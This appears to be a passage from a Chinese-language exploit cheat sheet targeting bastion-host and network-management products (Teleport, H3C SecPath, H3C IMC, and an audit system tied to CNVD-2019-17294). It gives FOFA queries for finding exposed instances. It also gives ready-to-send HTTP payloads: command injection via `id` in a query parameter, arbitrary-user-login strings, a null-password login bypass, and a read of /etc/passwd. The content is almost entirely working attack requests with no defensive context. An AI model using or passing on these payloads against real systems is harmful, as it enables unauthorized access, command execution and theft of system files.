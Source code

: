 ##### 后台命令执行 data_provider.php CNVD-2019-17294

```
POST /audit/data_provider.php?ds_y=2019&ds_m=03&ds_d=02&ds_hour=01&ds_min=40&server_cond=&service=`id`&identity_cond=&query_type=all&format=json&browse=true
Host: your-ip

page=1&rp=30&sortname=stampl&sortorder=desc&query=&qtype=
```

##### 任意用户登录

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

#### H3C SecPath

FOFA：

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

#### Teleport 堡垒机

FOFA：

```
app="TELEPORT堡垒机"
```

##### 任意用户登录

返回 code 为 0 说明成功，刷新首页即可进入后台：

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"xxxx","oath":"","remember":false}
```

##### 后台文件读取

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
```

### 0x02 IMC

#### H3C IMC 智能管理中心

FOFA：

```
"/imc/javax.faces.resource/images/login_logo_h3c.png.jsf?ln=primefaces-imc-new-webui"
```
